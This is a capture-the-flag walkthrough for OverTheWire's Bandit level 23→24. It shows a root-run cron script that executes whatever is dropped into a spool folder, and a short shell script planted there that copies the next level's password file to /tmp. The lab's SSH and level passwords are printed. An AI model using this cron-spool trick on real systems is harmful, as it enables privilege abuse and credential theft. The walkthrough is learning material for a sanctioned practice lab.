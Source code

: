 # Bandit Level 23 → Level 24

## Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)



```
ssh bandit23@bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

cat /usr/bin/cronjob_bandit24.sh
/*
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
*/

nano /var/spool/bandit24/getpass.sh
#!/bin/bash
myname=$(whoami)
touch /tmp/$myname_pass
cat /etc/bandit_pass/$myname > /tmp/$myname_pass

cat /tmp/bandit24_pass
#UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

